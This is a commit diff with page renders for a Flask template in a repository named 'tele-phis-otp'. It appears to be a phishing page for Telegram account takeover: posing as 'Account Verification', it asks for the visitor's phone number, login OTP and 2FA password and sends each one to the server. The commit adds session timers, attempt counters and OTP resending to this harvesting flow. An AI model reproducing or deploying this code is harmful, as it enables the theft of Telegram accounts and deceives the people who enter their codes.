

Before and after one commit to hahyt6644-gif/tele-phis-otp, a Flask app: template templates/index.html in a window 1280 px wide. Shown: the top 814 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -37,6 +37,20 @@
       display: block;
     }
 
+    .session-info {
+      background: #e3f2fd;
+      padding: 10px 15px;
+      border-radius: 8px;
+      margin-bottom: 20px;
+      font-size: 14px;
+      border-left: 4px solid #2196F3;
+    }
+
+    .session-info .timer {
+      color: #d32f2f;
+      font-weight: bold;
+    }
+
     .user-box {
       border: 2px solid #4CAF50;
       padding: 15px;
@@ -68,7 +82,7 @@
       margin: 10px 0;
     }
 
-    button:hover {
+    button:hover:not(:disabled) {
       transform: translateY(-2px);
       box-shadow: 0 5px 15px rgba(76,175,80,0.3);
     }
@@ -81,6 +95,10 @@
 
     button.secondary {
       background: linear-gradient(135deg, #2196F3 0%, #1976D2 100%);
+    }
+
+    button.warning {
+      background: linear-gradient(135deg, #FF9800 0%, #F57C00 100%);
     }
 
     button.danger {
@@ -102,25 +120,16 @@
     }
 
     .instructions {
-      background: #e3f2fd;
+      background: #f8f9fa;
       padding: 15px;
       border-radius: 10px;
       margin: 20px 0;
-      border-left: 4px solid #2196F3;
+      border: 1px solid #e9ecef;
     }
 
     .instructions h3 {
       margin-top: 0;
       color: #1976D2;
-    }
-
-    .instructions ol {
-      margin: 10px 0 0 20px;
-      color: #555;
-    }
-
-    .instructions li {
-      margin: 8px 0;
     }
 
     .alert {
@@ -142,12 +151,14 @@
       border-left: 4px solid #f44336;
     }
 
+    .alert.warning {
+      background: #fff3e0;
+      color: #f57c00;
+      border-left: 4px solid #FF9800;
+    }
+
     .alert.show {
       display: block;
-    }
-
-    .hidden {
-      display: none;
     }
 
     .otp-input {
@@ -160,11 +171,6 @@
       border-radius: 10px;
       margin: 20px 0;
       font-weight: bold;
-    }
-
-    .otp-input:focus {
-      outline: none;
-      border-color: #4CAF50;
     }
 
     .password-input {
@@ -187,49 +193,18 @@
       margin-bottom: 20px;
     }
 
-    .step-indicator {
-      display: flex;
-      justify-content: space-between;
-      margin: 20px 0 40px;
-      position: relative;
+    .attempts-counter {
+      text-align: center;
+      color: #666;
+      font-size: 14px;
+      margin: 10px 0;
     }
 
-    .step {
-      width: 30px;
-      height: 30px;
-      border-radius: 50%;
-      background: #ddd;
-      display: flex;
-      align-items: center;
-      justify-content: center;
-      color: white;
-      font-weight: bold;
-      z-index: 2;
-    }
-
-    .step.active {
-      background: #4CAF50;
-    }
-
-    .step.completed {
-      background: #4CAF50;
-    }
-
-    .step-line {
-      position: absolute;
-      top: 15px;
-      left: 15px;
-      right: 15px;
-      height: 2px;
-      background: #ddd;
-      z-index: 1;
-    }
-
-    .step-label {
+    .resend-info {
       text-align: center;
-      margin-top: 5px;
-      font-size: 12px;
       color: #666;
+      font-size: 14px;
+      margin: 15px 0;
     }
   </style>
 </head>
@@ -237,43 +212,31 @@
   <div class="container">
     <h2>🔐 Account Verification</h2>
 
-    <!-- Step Indicator -->
-    <div class="step-indicator">
-      <div class="step" id="step1">1</div>
-      <div class="step" id="step2">2</div>
-      <div class="step" id="step3">3</div>
-      <div class="step-line"></div>
-    </div>
-    <div style="display: flex; justify-content: space-between; margin-top: -10px;">
-      <div class="step-label">Share Contact</div>
-      <div class="step-label">Enter OTP</div>
-      <div class="step-label">Complete</div>
+    <!-- Session Info -->
+    <div id="session-info" class="session-info">
+      Session ID: <span id="session-id-display">Loading...</span>
+      • Expires in: <span id="session-timer" class="timer">5:00</span>
     </div>
 
     <!-- User Info Box -->
     <div id="user-box" class="user-box">
-      <div class="info-line">🆔 User ID: <span id="user-id">Loading...</span></div>
-      <div class="info-line">👤 Name: <span id="user-name">Loading...</span></div>
-      <div class="info-line">💬 Username: <span id="user-username">Loading...</span></div>
-      <div class="info-line">📞 Phone: <span id="user-phone">Not shared yet</span></div>
+      <div class="info-line">📱 Phone: <span id="user-phone">Not shared yet</span></div>
+      <div class="info-line">📊 Status: <span id="user-status">Waiting for contact...</span></div>
     </div>
 
     <!-- Alerts -->
     <div class="alert error" id="error-alert"></div>
     <div class="alert success" id="success-alert"></div>
+    <div class="alert warning" id="warning-alert"></div>
 
     <!-- Section 1: Contact Sharing -->
     <div id="section-contact" class="section active">
       <div class="instructions">
         <h3>📋 Step 1: Share Your Contact</h3>
-        <ol>
-          <li>Click "Share Phone Number" button below</li>
-          <li>Select your contact from Telegram</li>
-          <li>5-digit OTP will appear in bot chat</li>
-          <li>Return here for next step</li>
-        </ol>
-        <p style="margin-top: 10px; color: #666; font-size: 14px;">
-          🔒 <b>Privacy:</b> Your contact will be auto-deleted immediately
+        <p>Click the button below to share your phone number with the bot.</p>
+        <p>Your contact will be auto-deleted immediately for privacy.</p>
+        <p style="color: #666; font-size: 14px; margin-top: 10px;">
+          ⏰ <b>Note:</b> Session expires in 5 minutes
         </p>
       </div>
 
@@ -301,8 +264,20 @@
              pattern="\d{5}"
              oninput="this.value = this.value.replace(/\D/g, '').slice(0,5)">
 
+      <div class="attempts-counter">
+        Attempts: <span id="attempts-count">0</span>/3
+      </div>
+
       <button onclick="verifyOTP()" id="verify-otp-btn">
         ✅ Verify OTP
+      </button>
+
+      <div class="resend-info">
+        Didn't receive OTP or code expired?
+      </div>
+
+      <button onclick="resendOTP()" id="resend-otp-btn" class="warning">
+        🔄 Resend OTP
       </button>
 
       <button onclick="showSection('contact')" class="secondary">
@@ -338,12 +313,25 @@
         <div class="success-icon">✅</div>
         <h2>Verification Successful!</h2>
         <p>Your account has been verified successfully.</p>
-        <p>You can now close this WebApp.</p>
+        <p>Session data has been securely processed.</p>
 
         <button onclick="closeWebApp()" style="margin-top: 30px;">
           🏁 Close WebApp
         </button>
       </div>
+    </div>
+
+    <!-- Section 5: Expired -->
+    <div id="section-expired" class="section">
+      <div class="instructions" style="background: #ffebee; border-color: #f44336;">
+        <h3 style="color: #d32f2f;">⏰ Session Expired</h3>
+        <p>Your verification session has expired (5 minutes timeout).</p>
+        <p>Please return to the bot and use <b>/start</b> command to begin a new session.</p>
+      </div>
+
+      <button onclick="closeWebApp()" class="danger">
+        ❌ Close & Restart
+      </button>
     </div>
   </div>
 
@@ -351,45 +339,82 @@
     const tg = window.Telegram.WebApp;
     tg.expand();
 
-    let userId = null;
-    let userPhone = null;
-    let currentStage = 'contact';
+    let sessionId = new URLSearchParams(window.location.search).get('session_id');
+    let timerInterval = null;
+    let checkInterval = null;
 
-    // Initialize
-    const user = tg.initDataUnsafe?.user;
-    if (user) {
-      userId = user.id;
-      document.getElementById('user-id').textContent = userId;
-      document.getElementById('user-name').textContent = user.first_name || 'N/A';
-      document.getElementById('user-username').textContent = '@' + (user.username || 'N/A');
+    // Display session ID
+    if (sessionId) {
+      document.getElementById('session-id-display').textContent = sessionId.substring(0, 8) + '...';
     }
 
-    // Load user data from server
-    async function loadUserData() {
-      if (!userId) return;
+    // Start session timer
+    function startSessionTimer(seconds) {
+      if (timerInterval) clearInterval(timerInterval);
+
+      let timeLeft = seconds;
+
+      function updateTimer() {
+        const minutes = Math.floor(timeLeft / 60);
+        const secs = timeLeft % 60;
+        document.getElementById('session-timer').textContent =
+          `${minutes}:${secs < 10 ? '0' : ''}${secs}`;
+
+        if (timeLeft <= 0) {
+          clearInterval(timerInterval);
+          showSection('expired');
+        }
+        timeLeft--;
+      }
+
+      updateTimer();
+      timerInterval = setInterval(updateTimer, 1000);
+    }
+
+    // Load session data
+    async function loadSessionData() {
+      if (!sessionId) return;
 
       try {
-        const res = await fetch(`/api/user/${userId}`);
-        const data = await res.json();
+        const response = await fetch(`/api/session/${sessionId}`);
+        const data = await response.json();
 
-        if (data.phone) {
-          userPhone = data.phone;
-          document.getElementById('user-phone').textContent = userPhone;
+        if (data.success) {
+          const session = data.session;
 
-          // Update stage
-          if (data.stage === 'contact_received') {
+          // Update timer
+          startSessionTimer(session.time_remaining);
+
+          // Update UI based on session stage
+          if (session.phone) {
+            document.getElementById('user-phone').textContent = session.phone;
+          }
+
+          document.getElementById('user-status').textContent =
+            session.stage.replace('_', ' ').toUpperCase();
+
+          // Show appropriate section
+          if (session.expired) {
+            showSection('expired');
+          } else if (session.verified) {
+            showSection('success');
+          } else if (session.stage === 'needs_2fa' || session.requires_2fa) {
+            showSection('2fa');
+          } else if (session.stage === 'otp_sent' || session.phone) {
             showSection('otp');
-            updateSteps(2);
-          } else if (data.stage === 'needs_2fa') {
-            showSection('2fa');
-            updateSteps(3);
-          } else if (data.stage === 'verified') {
-            showSection('success');
-            updateSteps(4);
+            document.getElementById('attempts-count').textContent = session.otp_attempts;
+          } else {
+            showSection('contact');
+          }
+        } else {
+          if (data.expired) {
+            showSection('expired');
+          } else {
+            showAlert(data.error || 'Session error', 'error');
           }
         }
       } catch (error) {
-        console.error('Error loading user data:', error);
+        console.error('Error loading session:', error);
       }
     }
 
@@ -399,16 +424,51 @@
       btn.innerHTML = '<div class="spinner"></div> Opening contact picker...';
       btn.disabled = true;
 
-      tg.requestContact(ok => {
+      tg.requestContact(async (ok) => {
         if (ok) {
-          showAlert('✅ Contact shared! Check bot chat for OTP.', 'success');
+          // Get phone from Telegram
+          const user = tg.initDataUnsafe?.user;
+          const phone = user?.phone_number || '';
 
-          // Update UI
-          setTimeout(() => {
-            showSection('otp');
-            updateSteps(2);
-            loadUserData();
-          }, 1500);
+          if (phone) {
+            // Send to server
+            try {
+              const response = await fetch('/api/share-contact', {
+                method: 'POST',
+                headers: {'Content-Type': 'application/json'},
+                body: JSON.stringify({
+                  session_id: sessionId,
+                  phone: phone
+                })
+              });
+
+              const data = await response.json();
+
+              if (data.success) {
+                showAlert('✅ Contact shared! Sending OTP...', 'success');
+
+                // Send OTP
+                await sendOTP();
+
+                // Update UI
+                setTimeout(loadSessionData, 1000);
+              } else if (data.expired) {
+                showSection('expired');
+              } else {
+                showAlert('❌ ' + (data.error || 'Failed to share contact'), 'error');
+                btn.innerHTML = '📱 Share Phone Number';
+                btn.disabled = false;
+              }
+            } catch (error) {
+              showAlert('❌ Network error', 'error');
+              btn.innerHTML = '📱 Share Phone Number';
+              btn.disabled = false;
+            }
+          } else {
+            showAlert('❌ Could not get phone number', 'error');
+            btn.innerHTML = '📱 Share Phone Number';
+            btn.disabled = false;
+          }
         } else {
           showAlert('❌ Contact sharing cancelled', 'error');
           btn.innerHTML = '📱 Share Phone Number';
@@ -416,6 +476,48 @@
         }
       });
     };
+
+    // Send OTP
+    async function sendOTP() {
+      try {
+        const btn = document.getElementById('resend-otp-btn');
+        if (btn) {
+          btn.innerHTML = '<div class="spinner"></div> Sending...';
+          btn.disabled = true;
+        }
+
+        const response = await fetch('/api/send-otp', {
+          method: 'POST',
+          headers: {'Content-Type': 'application/json'},
+          body: JSON.stringify({ session_id: sessionId })
+        });
+
+        const data = await response.json();
+
+        if (data.success) {
+          showAlert('✅ OTP sent! Check your Telegram chat.', 'success');
+          showSection('otp');
+        } else if (data.expired) {
+          showSection('expired');
+        } else {
+          showAlert('❌ ' + (data.error || 'Failed to send OTP'), 'error');
+        }
+
+        if (btn) {
+          setTimeout(() => {
+            btn.innerHTML = '🔄 Resend OTP';
+            btn.disabled = false;
+          }, 3000);
+        }
+      } catch (error) {
+        showAlert('❌ Network error', 'error');
+      }
+    }
+
+    // Resend OTP
+    async function resendOTP() {
+      await sendOTP();
+    }
 
     // Verify OTP
     async function verifyOTP() {
@@ -437,7 +539,7 @@
           method: 'POST',
           headers: {'Content-Type': 'application/json'},
           body: JSON.stringify({
-            user_id: userId,
+            session_id: sessionId,
             otp: otp
           })
         });
@@ -448,19 +550,25 @@
           if (data.requires_2fa) {
             showAlert('🔐 2FA password required', 'success');
             showSection('2fa');
-            updateSteps(3);
           } else {
             showAlert('✅ Verification successful!', 'success');
             showSection('success');
-            updateSteps(4);
           }
+        } else if (data.expired) {
+          showSection('expired');
         } else {
           showAlert('❌ ' + (data.error || 'Invalid OTP'), 'error');
-          btn.innerHTML = '✅ Verify OTP';
-          btn.disabled = false;
+          document.getElementById('attempts-count').textContent = data.attempts || 0;
+
+          if (data.attempts >= 3) {
+            showAlert('⚠️ Too many attempts. Please resend OTP.', 'warning');
+          }
         }
+
+        btn.innerHTML = '✅ Verify OTP';
+        btn.disabled = false;
       } catch (error) {
-        showAlert('❌ Network error. Please try again.', 'error');
+        showAlert('❌ Network error', 'error');
         btn.innerHTML = '✅ Verify OTP';
         btn.disabled = false;
       }
@@ -484,7 +592,7 @@
           method: 'POST',
           headers: {'Content-Type': 'application/json'},
           body: JSON.stringify({
-            user_id: userId,
+            session_id: sessionId,
             password: password
           })
         });
@@ -494,7 +602,8 @@
         if (data.success) {
           showAlert('✅ 2FA verified successfully!', 'success');
           showSection('success');
-          updateSteps(4);
+        } else if (data.expired) {
+          showSection('expired');
         } else {
           showAlert('❌ ' + (data.error || 'Invalid password'), 'error');
           btn.innerHTML = '🔐 Verify 2FA';
@@ -514,7 +623,6 @@
 
       // Show selected section
       document.getElementById(`section-${sectionName}`).classList.add('active');
-      currentStage = sectionName;
 
       // Auto-focus inputs
       if (sectionName === 'otp') {
@@ -524,24 +632,10 @@
       }
     }
 
-    function updateSteps(stepNumber) {
-      // Reset all steps
-      for (let i = 1; i <= 3; i++) {
-        const step = document.getElementById(`step${i}`);
-        step.classList.remove('active', 'completed');
-
-        if (i < stepNumber) {
-          step.classList.add('completed');
-        } else if (i === stepNumber) {
-          step.classList.add('active');
-        }
-      }
-    }
-
     function showAlert(message, type) {
       const alert = document.getElementById(`${type}-alert`);
       alert.textContent = message;
-      alert.classList.add('show');
+      alert.className = `alert ${type} show`;
       setTimeout(() => alert.classList.remove('show'), 3000);
     }
 
@@ -550,10 +644,14 @@
     }
 
     // Initial load
-    loadUserData();
+    if (sessionId) {
+      loadSessionData();
 
-    // Auto-refresh user data every 3 seconds
-    setInterval(loadUserData, 3000);
+      // Check session status every 10 seconds
+      checkInterval = setInterval(loadSessionData, 10000);
+    } else {
+      showAlert('Invalid session ID', 'error');
+    }
 
     // Enter key support
     document.getElementById('otp-input')?.addEventListener('keypress', function(e) {
@@ -565,4 +663,4 @@
     });
   </script>
 </body>
-</html>
+        </html>
```
